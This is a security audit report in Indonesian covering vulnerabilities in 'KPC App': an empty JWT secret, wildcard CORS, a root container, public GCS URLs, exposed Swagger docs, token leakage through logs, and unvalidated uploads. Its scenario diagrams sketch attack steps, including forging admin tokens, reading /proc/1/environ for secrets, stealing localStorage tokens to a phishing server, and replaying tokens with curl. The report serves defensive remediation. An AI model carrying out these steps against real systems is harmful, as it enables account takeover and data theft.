# 🟡 MEDIUM-011 — Kunci Pengaman Token Bisa Kosong: Semua Token Bisa Dipalsukan

---

### Penjelasan Sederhana

Token akses KPC App ditandatangani dengan **kunci rahasia** — seperti stempel resmi yang membuktikan token itu asli. Masalahnya, jika kunci ini tidak dikonfigurasi (lupa di-set), nilainya menjadi **string kosong** — seperti stempel tanpa tinta.

Siapapun yang tahu format token bisa **membuat token palsu** yang ditandatangani dengan string kosong, dan sistem akan menerimanya sebagai token yang sah.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko      | Penjelasan                                          |
| -------------------- | --------------------------------------------------- |
| **Security Risk**    | Token bisa dipalsukan untuk mengakses akun siapapun |
| **Compliance Risk**  | Kunci kriptografi tidak boleh kosong atau lemah     |
| **Operational Risk** | Misconfiguration tidak terdeteksi (lihat HIGH-014)  |

---

### Risiko Konkret

- Attacker tahu format JWT → buat token dengan `sub=admin@kpc.co.id` → tandatangani dengan `""` → **masuk sebagai admin**
- Tidak ada error atau warning jika `JWT_SECRET_KEY` tidak di-set — aplikasi diam-diam beroperasi tidak aman
- Jika lingkungan staging/dev menggunakan secret yang sama dengan production, efek berlipat

---

### Real-World Scenario

> **Skenario**: Seorang developer melakukan deployment dan lupa menambahkan `JWT_SECRET_KEY` di environment variable Cloud Run.  
> Aplikasi tetap berjalan normal, tidak ada error.  
> Beberapa jam kemudian, seseorang yang tahu tentang celah ini membuat token JWT palsu bertanda-tangan string kosong.  
> Mereka masuk sebagai direktur procurement dan mengunduh seluruh data tender yang sedang berjalan.

---

### Business Impact

| Dampak                          | Deskripsi                                            |
| ------------------------------- | ---------------------------------------------------- |
| **Total Authentication Bypass** | Seluruh sistem autentikasi bisa dilewati             |
| **Impersonation**               | Bisa masuk sebagai akun siapapun termasuk admin      |
| **Silent Failure**              | Misconfiguration tidak terdeteksi sampai ada insiden |

---

### Diagram: JWT Forgery dengan Secret Kosong


```mermaid
sequenceDiagram
    participant A as Attacker
    participant BE as Backend API

    Note over A: JWT_SECRET_KEY = "" (tidak dikonfigurasi)

    A->>A: Buat JWT payload:<br/>sub=admin@kpc.co.id<br/>exp=+24jam
    A->>A: Sign dengan secret = ""<br/>menggunakan library PyJWT

    A->>BE: GET /api/v1/users<br/>Authorization: Bearer [forged_token]
    BE->>BE: Verifikasi signature dengan JWT_SECRET_KEY=""
    BE->>BE: ✅ Signature valid!
    BE->>A: 200 OK — Data Users

    Note right of A: Akses penuh sebagai admin<br/>tanpa username atau password
```

---

---

# BAGIAN 2 — INFRASTRUCTURE / DEPLOYMENT FINDINGS

---

## HIGH-006

# 🔴 HIGH-006 — Konfigurasi CORS Terlalu Permisif: Semua Website Bisa Akses API

---

### Penjelasan Sederhana

CORS adalah mekanisme keamanan browser yang menentukan **website mana yang boleh "berbicara" dengan API KPC**. Konfigurasi saat ini mengizinkan **semua website di internet** untuk mengakses API.

Ini seperti menetapkan kebijakan bahwa siapapun yang datang mengklaim "saya dari KPC" boleh masuk ke kantor — tanpa verifikasi identitas.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko     | Penjelasan                                                                 |
| ------------------- | -------------------------------------------------------------------------- |
| **Security Risk**   | Website berbahaya manapun bisa mengirim request atas nama user yang login  |
| **CSRF Risk**       | Cross-Site Request Forgery — user login tanpa sadar membuat aksi berbahaya |
| **Compliance Risk** | CORS yang salah konfigurasi adalah OWASP Top 10 A05                        |

---

### Risiko Konkret

- Attacker membuat website `kpc-internal-portal.com` yang terlihat seperti portal KPC
- User yang sedang login di KPC App membuka website attacker
- Website attacker membuat request ke API KPC **menggunakan session user** → attacker mendapat data

---

### Real-World Scenario

> **Skenario**: Attacker kirim email phishing ke procurement staff berisi link ke `kpc-login-portal.net`.  
> Staff mengklik link, browser membuka halaman yang terlihat seperti KPC App.  
> Karena CORS mengizinkan semua origin, halaman itu bisa membuat API request ke backend KPC sesungguhnya.  
> Data kontrak terbaru langsung dikirim ke server attacker dalam hitungan detik, tanpa user menyadarinya.

---

### Business Impact

| Dampak                     | Deskripsi                                                |
| -------------------------- | -------------------------------------------------------- |
| **Cross-Site Attack**      | Data bisa diakses dari website berbahaya manapun         |
| **Phishing Amplification** | Phishing site bisa fungsional sebagai proxy ke API nyata |
| **Data Exfiltration**      | Data bisa diambil secara diam-diam saat user aktif       |

---

### Diagram: CORS Attack Flow


```mermaid
sequenceDiagram
    participant U as User (Login di KPC)
    participant EVIL as Website Phishing<br/>kpc-fake.com
    participant API as KPC Backend API

    Note over U: User sudah login di KPC App<br/>Token tersimpan di localStorage

    U->>EVIL: Buka kpc-fake.com (dari link phishing)

    rect rgb(255, 200, 200)
        Note over EVIL: Script berbahaya di kpc-fake.com:
        EVIL->>EVIL: token = localStorage.getItem("token")
        EVIL->>API: GET /api/v1/scd/contracts<br/>Origin: https://kpc-fake.com<br/>Authorization: Bearer {token}

        Note over API: CORS_ORIGINS = ["*"]<br/>Semua origin diizinkan!
        API->>EVIL: ✅ 200 OK — Data Kontrak

        EVIL->>EVIL: Kirim data ke server attacker
    end
```

---

---

## HIGH-012

# 🔴 HIGH-012 — Container Berjalan Sebagai Administrator Penuh

---

### Penjelasan Sederhana

Setiap aplikasi berjalan di dalam "kotak" (container). Masalahnya, aplikasi ini berjalan sebagai **administrator penuh di dalam kotaknya** — bukan sebagai pengguna biasa.

Jika penyerang berhasil **menjebol aplikasi** melalui bug atau celah, mereka mendapatkan kemampuan penuh di dalam kotak tersebut. Dalam beberapa kondisi, ini bisa digunakan untuk **melarikan diri dari kotak** dan mengakses server nyata di bawahnya.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko         | Penjelasan                                                       |
| ----------------------- | ---------------------------------------------------------------- |
| **Security Risk**       | RCE (Remote Code Execution) = akses root di container            |
| **Compliance Risk**     | Melanggar CIS Docker Benchmark Rule 4.1                          |
| **Infrastructure Risk** | Container escape berpotensi mengekspos seluruh infrastruktur GCP |
| **Blast Radius**        | Scope kerusakan jika terjadi eksploitasi jauh lebih besar        |

---

### Risiko Konkret

- Attacker eksploitasi bug di dependency Python → dapat shell di dalam container **sebagai root**
- Dari root container, bisa baca semua environment variables (secrets, DB password, GCS key)
- Dalam konfigurasi tertentu, root container bisa **mount filesystem host** atau akses Docker socket
- Jika CI/CD agent berjalan di host yang sama, root container bisa **memodifikasi pipeline**

---

### Real-World Scenario

> **Skenario**: Sebuah library Python yang digunakan KPC App memiliki zero-day vulnerability yang memungkinkan Remote Code Execution.  
> Attacker mengeksploitasi vulnerability ini dan mendapat shell di dalam container.  
> Karena container berjalan sebagai root, mereka langsung bisa membaca `/proc/env` dan mendapatkan `DATABASE_URL`, `JWT_SECRET_KEY`, dan `GCS credentials`.  
> Dengan credentials ini, mereka memiliki akses langsung ke seluruh database dan storage — **tanpa harus melewati API sama sekali**.

---

### Business Impact

| Dampak                        | Deskripsi                                                             |
| ----------------------------- | --------------------------------------------------------------------- |
| **Infrastructure Compromise** | Seluruh infrastruktur GCP berpotensi dikuasai                         |
| **Credentials Theft**         | Semua secrets di environment variables terekspos                      |
| **Total Data Access**         | Database dan storage dapat diakses langsung                           |
| **Supply Chain Risk**         | Vulnerability di library pihak ketiga menjadi vektor serangan efektif |

---

### Diagram: Container Escape via Root Access


```mermaid
flowchart TD
    RCE[Attacker: RCE via Library Vulnerability] --> ROOTSHELL[Shell di Container<br/>sebagai root uid=0]

    ROOTSHELL --> ENV[Baca /proc/1/environ<br/>Dapat: DB_URL, JWT_SECRET, GCS_KEY]
    ROOTSHELL --> FS[Akses seluruh filesystem container]
    ROOTSHELL --> NET[Akses internal network<br/>Cloud SQL, Redis, etc.]

    ENV --> DBACCESS[Koneksi langsung ke Cloud SQL<br/>SELECT * FROM semua tabel]
    ENV --> GCSACCESS[Akses langsung ke GCS bucket<br/>Download semua dokumen]
    ENV --> JWTFORGE[Forge JWT sebagai admin<br/>Akses seluruh API]

    style RCE fill:#ff4444,color:#fff
    style ROOTSHELL fill:#ff4444,color:#fff
    style DBACCESS fill:#ff8800,color:#fff
    style GCSACCESS fill:#ff8800,color:#fff
    style JWTFORGE fill:#ff8800,color:#fff
```

---

---

## HIGH-013

# 🔴 HIGH-013 — Dokumen Sensitif di GCS Berpotensi Dapat Diakses Siapapun

---

### Penjelasan Sederhana

Semua dokumen yang diupload ke KPC App (invoice, kontrak, proposal, bid document) disimpan di Google Cloud Storage (GCS). Sistem menggunakan **URL publik langsung** untuk mengakses dokumen ini.

Jika konfigurasi bucket GCS bersifat publik (atau dibuat publik secara tidak sengaja), **siapapun yang mengetahui URL dokumen tersebut dapat mengaksesnya langsung** — tanpa perlu login ke KPC App sama sekali.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko     | Penjelasan                                                      |
| ------------------- | --------------------------------------------------------------- |
| **Security Risk**   | Dokumen bisnis sensitif terbuka untuk publik                    |
| **Data Leakage**    | Invoice, kontrak, proposal bisa diunduh langsung dari URL       |
| **Compliance Risk** | Dokumen bisnis rahasia tidak boleh terbuka untuk umum           |
| **Financial Risk**  | Kebocoran data tender/bid bisa merugikan bisnis secara langsung |

---

### Risiko Konkret

- Seseorang menebak atau menemukan URL dokumen → **download langsung tanpa login**
- Google bot/indexer kemungkinan mengindeks URL publik → dokumen muncul di hasil pencarian Google
- Kompetitor atau media mendapatkan akses ke dokumen tender yang belum diumumkan
- Kebocoran invoice bisa mengekspos struktur harga dan margin bisnis KPC

---

### Real-World Scenario

> **Skenario**: Procurement officer mengirim URL attachment lewat email untuk share ke kolega.  
> URL tersebut adalah URL publik GCS: `https://storage.googleapis.com/kpc_app_attachements/contracts/123/bid.pdf`  
> Email tersebut **terforward secara tidak sengaja** ke pihak luar.  
> Penerima email bisa langsung download dokumen bid analysis **tanpa perlu akun KPC App apapun**.

---

### Business Impact

| Dampak                       | Deskripsi                                     |
| ---------------------------- | --------------------------------------------- |
| **Document Breach**          | Kontrak, invoice, dan proposal terbuka publik |
| **Competitive Disadvantage** | Harga tender bocor ke kompetitor              |
| **Legal Exposure**           | Pelanggaran kerahasiaan kontrak bisnis        |
| **Financial Loss**           | Data strategis bernilai tinggi terekspos      |

---

### Diagram: GCS Public URL Exposure


```mermaid
flowchart TD
    UP[User upload dokumen lewat KPC App] --> SVC[AttachmentsService]
    SVC --> GCS[Upload ke GCS Bucket<br/>kpc_app_attachements]
    GCS --> URL[Simpan public_url di database:<br/>https://storage.googleapis.com/bucket/file.pdf]

    URL --> DB[(Database: tabel blobs<br/>url = public URL)]

    ANYONE[Siapapun yang punya URL] --> DIRECT[GET https://storage.googleapis.com/bucket/file.pdf]
    DIRECT --> BUCKET{Bucket IAM}

    BUCKET -->|Jika public| DOWNLOAD[✅ Download BERHASIL<br/>Tanpa autentikasi apapun]
    BUCKET -->|Jika private| BROKEN[❌ 403 Forbidden<br/>Link di database tidak berfungsi]

    style DOWNLOAD fill:#ff4444,color:#fff
    style BROKEN fill:#ff8800,color:#fff
```

---

---

## HIGH-014

# 🔴 HIGH-014 — Aplikasi Bisa Berjalan dengan Konfigurasi Berbahaya Tanpa Peringatan

---

### Penjelasan Sederhana

Bayangkan sebuah mobil yang tetap bisa dinyalakan dan dikendarai meskipun **sabuk pengaman rusak, rem tidak berfungsi, dan kaca spion hilang** — tanpa ada lampu peringatan menyala di dashboard.

Itulah kondisi KPC App saat ini. Jika konfigurasi keamanan penting tidak di-set (secret kosong, debug mode aktif di production, email mengarah ke server dev), **aplikasi tetap berjalan normal tanpa error, tanpa warning**.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko         | Penjelasan                                                         |
| ----------------------- | ------------------------------------------------------------------ |
| **Security Risk**       | Aplikasi production bisa berjalan dengan konfigurasi development   |
| **Operational Risk**    | Misconfiguration tidak terdeteksi sampai terjadi insiden           |
| **Business Continuity** | Fitur kritis (email, storage, auth) bisa diam-diam tidak berfungsi |
| **Maintainability**     | Developer tidak mendapat feedback langsung saat konfigurasi salah  |

---

### Risiko Konkret

- Deployment ke production lupa set `JWT_SECRET_KEY` → **semua token bisa dipalsukan**, tidak ada error
- `USE_MAILHOG=True` terlupa di production → **email notifikasi tidak terkirim ke pengguna nyata**, tidak ada error
- `DEBUG=True` di production → **stack trace Python lengkap** dikirim ke browser saat error
- `CORS_ORIGINS=["*"]` terlupa di-set → **semua website di internet bisa akses API**

---

### Real-World Scenario

> **Skenario**: Tim DevOps melakukan deployment versi baru. Dalam konfigurasi Cloud Run, mereka lupa memindahkan `JWT_SECRET_KEY` dari variable group staging ke production.  
> Aplikasi berjalan normal — tidak ada error, tidak ada alert.  
> Selama beberapa jam, seluruh autentikasi berjalan dengan secret key kosong.  
> Jika ada yang menyadari dan mengeksploitasi ini, **seluruh akun bisa diakses tanpa password**.  
> Tidak ada yang tahu sampai ada audit keesokan harinya.

---

### Business Impact

| Dampak                      | Deskripsi                                                            |
| --------------------------- | -------------------------------------------------------------------- |
| **Silent Security Failure** | Konfigurasi berbahaya tidak terdeteksi                               |
| **Deployment Risk**         | Setiap deployment adalah risiko konfigurasi yang tidak terdeteksi    |
| **Cascading Risk**          | Satu misconfiguration bisa aktifkan beberapa vulnerability sekaligus |

---

### Diagram: Silent Misconfiguration di Production


```mermaid
flowchart TD
    DEPLOY[Deployment Baru ke Cloud Run] --> MISCONFIG{JWT_SECRET_KEY dikonfigurasi?}

    MISCONFIG -->|Ya, dikonfigurasi| SECURE[✅ Aplikasi berjalan aman]
    MISCONFIG -->|Tidak, kosong string| SILENT[Aplikasi tetap berjalan<br/>Tidak ada error startup<br/>Tidak ada warning]

    SILENT --> VULN1[JWT_SECRET_KEY = empty<br/>Token bisa dipalsukan]
    SILENT --> VULN2[USE_MAILHOG = True default<br/>Email tidak terkirim ke user]
    SILENT --> VULN3[CORS = wildcard default<br/>Semua origin diizinkan]

    VULN1 & VULN2 & VULN3 --> NOALERT[❌ Tidak ada log<br/>❌ Tidak ada alert<br/>❌ Tidak ada startup error]

    NOALERT --> DISCOVER[Terungkap saat insiden terjadi]

    style SILENT fill:#ff4444,color:#fff
    style NOALERT fill:#ff4444,color:#fff
    style DISCOVER fill:#ff8800,color:#fff
```

---

---

## MEDIUM-012

# 🟡 MEDIUM-012 — Dokumentasi API Terbuka untuk Umum: Peta Jalan bagi Penyerang

---

### Penjelasan Sederhana

KPC App secara otomatis menampilkan **halaman dokumentasi interaktif** (`/docs`) yang menunjukkan seluruh endpoint API, format data, dan cara penggunaannya — termasuk cara untuk melakukan login.

Ini seperti memberikan **denah lengkap kantor beserta sistem keamanannya** kepada semua orang yang datang ke resepsionis — termasuk tamu yang tidak dikenal.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko            | Penjelasan                                              |
| -------------------------- | ------------------------------------------------------- |
| **Security Risk**          | Menyediakan "peta jalan" lengkap untuk penyerang        |
| **Information Disclosure** | Schema data, field names, dan format ekspos ke publik   |
| **Reconnaissance Aid**     | Penyerang bisa pelajari sistem tanpa harus mencoba-coba |

---

### Risiko Konkret

- Siapapun bisa akses `https://api.kpc.co.id/docs` dan melihat seluruh 100+ endpoint
- Azure AD `client_id` terpublikasi di Swagger UI init config
- Format request/response terbuka → attacker tahu persis data apa yang tersedia dan formatnya
- Swagger UI bisa digunakan langsung untuk **mencoba memanggil endpoint** dari browser

---

### Real-World Scenario

> **Skenario**: Seorang peneliti keamanan iseng mengetikkan `https://dev-api.genai.kpc.co.id/docs`.  
> Halaman Swagger UI muncul lengkap dengan semua endpoint KPC App.  
> Dalam 30 menit, dia bisa memetakan seluruh permukaan serangan: endpoint tanpa auth, format data sensitif, dan OAuth2 configuration.  
> Informasi ini cukup untuk merencanakan serangan yang jauh lebih terarah.

---

### Business Impact

| Dampak                      | Deskripsi                                                |
| --------------------------- | -------------------------------------------------------- |
| **Attack Surface Exposure** | Penyerang mendapat peta lengkap sistem tanpa usaha       |
| **Reconnaissance Enabled**  | Proses penyerangan menjadi jauh lebih efisien            |
| **Compliance Risk**         | API documentation tidak seharusnya terbuka di production |

---

### Diagram: API Reconnaissance via Swagger


```mermaid
flowchart LR
    ATK[Attacker] -->|GET https://api.kpc.co.id/docs| SWAGGER[Swagger UI Terbuka]

    SWAGGER --> EP[Daftar semua endpoint]
    SWAGGER --> SCHEMA[Request/Response schema]
    SWAGGER --> AUTH[OAuth2 config + client_id]
    SWAGGER --> ERR[Error response format]

    EP --> TARGET[Identifikasi endpoint sensitif:<br/>/scd/contracts<br/>/fin/invoices<br/>/ws/jobs]
    SCHEMA --> CRAFT[Craft payload yang tepat]
    AUTH --> PHISH[Phishing dengan client_id asli]

    TARGET & CRAFT & PHISH --> ATTACK[Serangan lebih terarah dan efisien]

    style SWAGGER fill:#ff8800,color:#fff
    style ATTACK fill:#ff4444,color:#fff
```

---

---

## MEDIUM-013

# 🟡 MEDIUM-013 — Log Debug di Production: Konten Dokumen Tersimpan di Cloud Logging

---

### Penjelasan Sederhana

Celery worker (sistem yang menjalankan proses AI) dikonfigurasi untuk menjalankan **mode debug** bahkan di production. Mode debug ini mencetak **semua detail** ke log — termasuk isi dokumen yang sedang diproses.

Bayangkan mesin fotokopi yang mencetak salinan tambahan dari setiap dokumen yang diproses, dan menyimpannya di lemari yang bisa diakses oleh lebih banyak orang daripada seharusnya.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko       | Penjelasan                                                                      |
| --------------------- | ------------------------------------------------------------------------------- |
| **Data Leakage**      | Konten dokumen sensitif tersimpan di log yang mungkin kurang aman               |
| **Compliance Risk**   | Data invoice dan kontrak tidak boleh tersimpan di tempat yang tidak terstruktur |
| **Performance Issue** | Debug logging menambah overhead I/O yang signifikan                             |
| **Storage Cost**      | Volume log jauh lebih besar dari yang diperlukan                                |

---

### Risiko Konkret

- Seluruh konten invoice yang di-OCR tersimpan di Google Cloud Logging
- AI prompt dan response (termasuk data kontrak) tersimpan di log
- Engineer yang punya akses Cloud Logging (tapi bukan akses aplikasi) bisa baca data sensitif
- Log retention yang panjang berarti data lama tersimpan lama di tempat yang kurang terlindungi

---

### Real-World Scenario

> **Skenario**: KPC menggunakan Cloud Logging dengan retention 90 hari.  
> Setiap invoice yang diproses AI meninggalkan jejak lengkap di log termasuk nomor invoice, vendor, dan jumlah.  
> Seorang engineer kontrak yang punya akses Cloud Logging untuk troubleshooting, secara teknis bisa membaca seluruh history invoice selama 90 hari terakhir — **tanpa perlu akses ke aplikasi KPC**.

---

### Business Impact

| Dampak                           | Deskripsi                                                                      |
| -------------------------------- | ------------------------------------------------------------------------------ |
| **Data Overexposure**            | Data sensitif tersebar ke sistem yang seharusnya hanya berisi operational logs |
| **Access Control Circumvention** | Role-based access control di aplikasi bisa dilewati via log access             |
| **Compliance Violation**         | Data PII dan data keuangan tidak boleh di-log tanpa masking                    |
| **Storage Cost**                 | Biaya Cloud Logging membengkak tidak perlu                                     |

---

### Diagram: Data Leakage via Debug Log


```mermaid
flowchart TD
    INV[User upload Invoice PDF] --> TASK[Celery Task: process_invoice_ocr]

    TASK -->|loglevel=DEBUG| LOG[Google Cloud Logging]

    LOG --> LOG1[Task arguments logged:<br/>file content, filename, user_id]
    LOG --> LOG2[AI prompt logged:<br/>full invoice text]
    LOG --> LOG3[AI response logged:<br/>extracted fields, amounts]
    LOG --> LOG4[DB query logged:<br/>INSERT data with values]

    LOG1 & LOG2 & LOG3 & LOG4 --> RETENTION[Tersimpan 90 hari di Cloud Logging]

    RETENTION --> ENGACCESS[Engineer dengan Cloud Logging access<br/>bisa baca semua data]
    RETENTION --> BREACH[Jika Cloud Logging dikompromis:<br/>seluruh riwayat dokumen terekspos]

    style LOG fill:#ff8800,color:#fff
    style BREACH fill:#ff4444,color:#fff
```

---

---

## MEDIUM-014

# 🟡 MEDIUM-014 — Kunci GCP Tersimpan di Sistem CI/CD: Risiko Akses Cloud Tanpa Batas Waktu

---

### Penjelasan Sederhana

Untuk melakukan deployment ke GCP, pipeline CI/CD menggunakan **kunci akses permanen** (Service Account key). Kunci ini disimpan di dalam sistem Azure DevOps sebagai variabel.

Ini seperti menyimpan **kunci master kantor** di brankas umum yang bisa diakses oleh semua orang yang punya akses ke sistem CI/CD — termasuk kontraktor dan mantan karyawan yang lupa dicabut aksesnya.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko      | Penjelasan                                                            |
| -------------------- | --------------------------------------------------------------------- |
| **Security Risk**    | Long-lived credentials yang tersimpan di tempat yang bisa dikompromis |
| **Access Control**   | Siapapun dengan akses Azure DevOps bisa mendapat kunci GCP            |
| **Compliance Risk**  | Service account key tidak boleh disimpan sebagai static secret        |
| **Operational Risk** | Rotasi key memerlukan update manual di banyak tempat                  |

---

### Risiko Konkret

- Siapapun dengan akses ke Azure DevOps variable group bisa decode base64 key dan mendapat akses GCP
- Jika Azure DevOps dikompromis, attacker mendapat **akses penuh ke GCP** seumur hidup key
- Key yang tertulis ke disk build agent (`gcp-sa.json`) bisa tertinggal jika cleanup step gagal
- Jika key bocor dan tidak segera dirotasi, window of exposure bisa berbulan-bulan

---

### Real-World Scenario

> **Skenario**: Seorang developer resign dari KPC. Azure DevOps akun mereka dinonaktifkan di Azure AD.  
> Tapi **variable group** tempat GCP key disimpan tidak diperiksa.  
> Jika developer tersebut sebelumnya mengcopy key tersebut, mereka masih memiliki akses ke GCP Cloud Run, Cloud SQL, dan GCS bucket **seumur hidup key tersebut** — meskipun sudah tidak jadi karyawan.

---

### Business Impact

| Dampak                           | Deskripsi                                                        |
| -------------------------------- | ---------------------------------------------------------------- |
| **Persistent Cloud Access**      | Credentials yang bocor memberikan akses seumur hidup             |
| **Blast Radius**                 | Satu credentials = akses ke seluruh GCP project                  |
| **Incident Response Complexity** | Deteksi dan revocation credentials yang bocor bisa memakan waktu |

---

### Diagram: SA Key Exposure Risk


```mermaid
flowchart TD
    PIPELINE[Azure DevOps Pipeline] --> DECODE[base64 decode GCP_SERVICE_ACCOUNT_BASE64]
    DECODE --> FILE[Tulis ke gcp-sa.json di disk agent]
    FILE --> AUTH[gcloud auth activate-service-account]
    AUTH --> DEPLOY[Deploy ke Cloud Run, GCS, Cloud SQL]

    FILE -->|Jika cleanup gagal| RESIDUAL[gcp-sa.json tertinggal di build agent]
    RESIDUAL --> LEFTOVER[Engineer lain yang akses agent bisa baca key]

    PIPELINE -->|Variable group dikompromis| KEYEXPOSED[Key JSON terekspos]
    KEYEXPOSED --> GCPACCESS[Akses penuh ke GCP:<br/>Cloud Run, Cloud SQL, GCS<br/>Artifact Registry, Cloud Logging]

    style KEYEXPOSED fill:#ff4444,color:#fff
    style GCPACCESS fill:#ff4444,color:#fff
    style RESIDUAL fill:#ff8800,color:#fff
```

---

---

## MEDIUM-015

# 🟡 MEDIUM-015 — Upload File Tanpa Validasi: File Berbahaya Bisa Masuk ke Sistem

---

### Penjelasan Sederhana

Fitur upload file di KPC App **tidak memeriksa** apakah file yang diupload benar-benar sesuai dengan jenisnya. Seseorang bisa mengirim file berbahaya (script, executable, HTML palsu) dengan pura-pura sebagai dokumen PDF atau gambar.

Ini seperti pos keamanan gedung yang hanya melihat label "dokumen" di amplop tanpa pernah memeriksa isinya.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko      | Penjelasan                                                |
| -------------------- | --------------------------------------------------------- |
| **Security Risk**    | File berbahaya bisa masuk dan tersimpan di server/GCS     |
| **Operational Risk** | Storage penuh karena upload file besar tanpa batas        |
| **Financial Risk**   | Biaya GCS storage membengkak dari upload tidak terkontrol |
| **Compliance Risk**  | Platform tidak boleh menjadi penyimpan konten berbahaya   |

---

### Risiko Konkret

- Upload file HTML dengan JavaScript → bisa menjadi vektor XSS jika dibuka langsung dari GCS
- Upload file `.sh` atau `.py` yang disamarkan sebagai PDF → tersimpan di server
- Upload file 1GB berulang-ulang → **menghabiskan storage dan bandwidth** (DoS)
- File SVG dengan embedded JavaScript → XSS di browser yang membuka file

---

### Real-World Scenario

> **Skenario**: Seorang user dengan akun yang dikompromis mengupload file HTML berisi script yang terlihat seperti halaman login KPC.  
> File ini tersimpan di GCS dan mendapat URL publik.  
> Attacker membagikan URL tersebut melalui email internal yang terlihat resmi.  
> Staff yang mengklik link mendapat halaman login palsu yang mencuri credentials mereka.  
> **Phishing site ini di-host di infrastruktur KPC sendiri**.

---

### Business Impact

| Dampak                 | Deskripsi                                                        |
| ---------------------- | ---------------------------------------------------------------- |
| **Malware Storage**    | Sistem KPC menjadi tempat penyimpanan file berbahaya             |
| **Phishing Platform**  | Infrastruktur KPC digunakan untuk menyerang karyawan KPC sendiri |
| **Storage Cost Abuse** | Biaya storage tidak terduga akibat upload tidak terbatas         |
| **Service Disruption** | Upload file sangat besar dapat menyebabkan timeout dan gangguan  |

---

### Diagram: Malicious File Upload Flow


```mermaid
flowchart TD
    ATK[Attacker dengan akun yang dikompromis] --> CRAFT[Buat file: invoice.pdf<br/>Isi: HTML + JavaScript XSS payload<br/>Content-Type: application/pdf]

    CRAFT --> UPLOAD[POST /api/v1/scd/contracts/1/attachments]
    UPLOAD --> SVC[AttachmentsService<br/>Tidak ada validasi tipe file<br/>Tidak ada validasi ukuran]

    SVC --> GCS[File tersimpan di GCS]
    GCS --> PUBURL[URL publik:<br/>storage.googleapis.com/kpc_app/invoice.pdf]

    PUBURL --> SHARE[Attacker share URL via email internal]
    SHARE --> VICTIM[Staff KPC buka URL]
    VICTIM --> EXECUTE[Browser eksekusi script HTML<br/>Tampil halaman login palsu]
    EXECUTE --> CREDS[Credentials staff dicuri]

    style CRAFT fill:#ff8800,color:#fff
    style EXECUTE fill:#ff4444,color:#fff
    style CREDS fill:#ff4444,color:#fff
```

---

---

## MEDIUM-016

# 🟡 MEDIUM-016 — Token Login Muncul di URL WebSocket: Tersimpan Permanen di Log Server

---

### Penjelasan Sederhana

Saat pengguna menggunakan fitur chatbot AI di KPC App, token akses mereka dikirim sebagai bagian dari **alamat URL** (seperti `wss://api.kpc.co.id/ws/chatbot/session?token=eyJ...`).

URL ini otomatis tersimpan di banyak tempat: log server, log CDN, riwayat browser, dan monitoring tools. Ini seperti menuliskan PIN kartu kredit Anda di amplop yang dikirim melalui kantor pos biasa — banyak orang bisa membacanya di perjalanan.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko     | Penjelasan                                                          |
| ------------------- | ------------------------------------------------------------------- |
| **Security Risk**   | Token tersimpan di log yang bisa diakses banyak pihak               |
| **Audit Problem**   | Log server berisi token aktif — menjadi target menarik untuk dicuri |
| **Compliance Risk** | Credentials tidak boleh muncul di log (OWASP)                       |

---

### Risiko Konkret

- Engineer yang mengakses Cloud Run logs untuk debugging bisa melihat token aktif user
- Log yang diexport ke sistem monitoring (Datadog, ELK) menyebarkan token lebih jauh
- Token di log bisa digunakan untuk impersonasi user selama 24 jam setelah token terlog
- Browser history menyimpan URL dengan token → siapapun yang punya akses browser bisa baca token

---

### Real-World Scenario

> **Skenario**: Tim DevOps sedang troubleshoot issue di production WebSocket.  
> Mereka membuka Cloud Run access logs dan melihat baris seperti:  
> `GET /ws/chatbot/session123?token=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJkaXJlY3RvcEB...`  
> Token tersebut masih aktif (belum expired).  
> Secara teknis, engineer yang tidak punya hak akses ke data procurement bisa **menggunakan token tersebut untuk mengakses API sebagai direktur procurement**.

---

### Business Impact

| Dampak                   | Deskripsi                                                          |
| ------------------------ | ------------------------------------------------------------------ |
| **Token Exposure**       | Token aktif tersimpan di log yang diakses banyak orang             |
| **Privilege Escalation** | Engineer bisa akses data di luar scope tugasnya via token dari log |
| **Log Security**         | Log menjadi data sensitif yang perlu perlindungan ekstra           |

---

### Diagram: Token Exposure via URL Logging


```mermaid
flowchart TD
    USER[User buka chatbot KPC] --> WS[wss://api.kpc.co.id/ws/chatbot/abc?token=eyJ...]

    WS --> LOG1[Cloud Run Access Log:<br/>URL + token tersimpan]
    WS --> LOG2[CDN/WAF Log:<br/>URL + token tersimpan]
    WS --> LOG3[Browser History:<br/>URL + token tersimpan]

    LOG1 --> DEVACCESS[Engineer dengan Cloud Logging access<br/>bisa baca token aktif]
    DEVACCESS --> REUSE[Gunakan token untuk akses API:<br/>curl -H Authorization: Bearer eyJ...]
    REUSE --> DATA[✅ Akses data user lain<br/>selama token belum expired]

    style LOG1 fill:#ff8800,color:#fff
    style LOG2 fill:#ff8800,color:#fff
    style LOG3 fill:#ff8800,color:#fff
    style DATA fill:#ff4444,color:#fff
```

---

---

## MEDIUM-017

# 🟡 MEDIUM-017 — Header Keamanan Browser Tidak Dikonfigurasi

---

### Penjelasan Sederhana

Browser modern memiliki banyak **fitur keamanan bawaan** — tapi fitur-fitur ini harus **diaktifkan oleh server** melalui instruksi di setiap respons HTTP. KPC App tidak mengirimkan instruksi-instruksi tersebut.

Ini seperti mobil yang punya airbag dan abs, tapi tidak dinyalakan karena tidak ada yang mengaktifkan sensornya.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko       | Penjelasan                                                                |
| --------------------- | ------------------------------------------------------------------------- |
| **Security Risk**     | Beberapa kelas serangan yang seharusnya diblok browser jadi bisa berhasil |
| **XSS Risk**          | Tanpa CSP, skrip berbahaya bisa dijalankan di halaman                     |
| **Clickjacking Risk** | Tanpa X-Frame-Options, KPC App bisa ditanam di iframe berbahaya           |
| **Compliance Risk**   | Missing security headers adalah temuan standar di audit keamanan          |

---

### Risiko Konkret

- Tanpa `Content-Security-Policy`: script dari domain manapun bisa dijalankan di halaman
- Tanpa `X-Frame-Options`: website phishing bisa embed KPC App dalam iframe transparan (clickjacking)
- Tanpa `Strict-Transport-Security`: user yang mengakses via HTTP tidak otomatis dialihkan ke HTTPS
- Tanpa `X-Content-Type-Options`: browser mungkin mengeksekusi file yang diupload dengan tipe yang berbeda

---

### Real-World Scenario

